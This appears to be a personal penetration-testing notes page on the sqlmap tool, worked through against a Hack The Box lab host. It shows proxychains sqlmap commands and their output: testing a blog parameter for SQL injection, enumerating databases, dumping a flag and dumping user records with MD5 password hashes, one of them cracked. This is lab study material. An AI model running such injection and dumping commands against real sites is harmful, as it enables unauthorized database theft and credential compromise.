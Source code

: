 # 💢 sqlmap
Tags: #💢
Related to: 
See also: 
Previous: [[Web Application Analysis]], [[Database Assessment]], [[Exploitation Tools]], [[SQLMap Essentials]]

---
## Description

Automatic SQL injection tool.

## Usage Examples

Test for SQLi:

	proxychains firefox http://172.16.1.12/blog/category.php?id=2%27	// ' == %27 in hex

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```

### Enumerate databases

	proxychains sqlmap -u http://172.16.1.12/blog/category.php?id=2 --dbs --batch 

```
available databases [7]:                                                                                            
[*] blog_admin_db
[*] flag
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] test
```

### Dump data from flag database

	proxychains sqlmap -u http://172.16.1.12/blog/category.php?id=2 -D flag --dump

```
-D			// DBMS database to enumerate
--dump		// Dump DBMS database table entries
--dump-all	// Dump all DBMS databases tables entries
```

```
Database: flag
Table: flag
[1 entry]
+------------------------------+
| flag                         |
+------------------------------+
| DANTE{wHy_y0U_n0_s3cURe?!?!} |
+------------------------------+
```

### Enumerate tables

	proxychains sqlmap -u http://172.16.1.12/blog/category.php?id=2 -D blog_admin_db --table

```
--tables	// Enumerate DBMS database tables
```

```
Database: blog_admin_db                                                                                             
[13 tables]
+-----------------------------+
| banner_posts                |
| blog_categories             |
| blogs                       |
| editors_choice              |
| links                       |
| membership_grouppermissions |
| membership_groups           |
| membership_userpermissions  |
| membership_userrecords      |
| membership_users            |
| page_hits                   |
| titles                      |
| visitor_info                |
+-----------------------------+
```

### Enumerate table

	proxychains sqlmap -u http://172.16.1.12/blog/category.php?id=2 -D blog_admin_db -T membership_users --dump

```
-T	// DBMS database table(s) to enumerate
```

```
[21:13:55] [INFO] cracked password 'admin' for hash '21232f297a57a5a743894a0e4a801fc3'                              
Database: blog_admin_db                                                                                             
Table: membership_users
[4 entries]
+---------+----------+----------------+---------+---------+---------+---------+------------------------------------------+----------------------------------------------------------------------------------------------+----------+------------+------------+----------------+-------------------+
| groupID | memberID | email          | custom1 | custom2 | custom3 | custom4 | passMD5                                  | comments                                                                                     | isBanned | isApproved | signupDate | pass_reset_key | pass_reset_expiry |
+---------+----------+----------------+---------+---------+---------+---------+------------------------------------------+----------------------------------------------------------------------------------------------+----------+------------+------------+----------------+-------------------+
| 2       | admin    | <blank>        | NULL    | NULL    | NULL    | NULL    | 21232f297a57a5a743894a0e4a801fc3 (admin) | Admin member created automatically on 2018-04-26\nRecord updated automatically on 2018-04-27 | 0        | 1          | 2018-04-26 | NULL           | NULL              |
| NULL    | ben      | ben@dante.htb  | NULL    | NULL    | NULL    | NULL    | 442179ad1de9c25593cabf625c0badb7         | NULL                                                                                         | NULL     | NULL       | NULL       | NULL           | NULL              |
| 3       | egre55   | egre55@htb.com | egre55  | a       | a       | a       | d6501933a2e0ea1f497b87473051417f         | member signed up through the registration form.                                              | 0        | 1          | 2020-08-05 | NULL           | NULL              |
| 1       | guest    | NULL           | NULL    | NULL    | NULL    | NULL    | NULL                                     | Anonymous member created automatically on 2018-04-26                                         | 0        | 1          | 2018-04-26 | NULL           | NULL              |
+---------+----------+----------------+---------+---------+---------+---------+------------------------------------------+----------------------------------------------------------------------------------------------+----------+------------+------------+----------------+-------------------+
```

---
## References
- [[]]
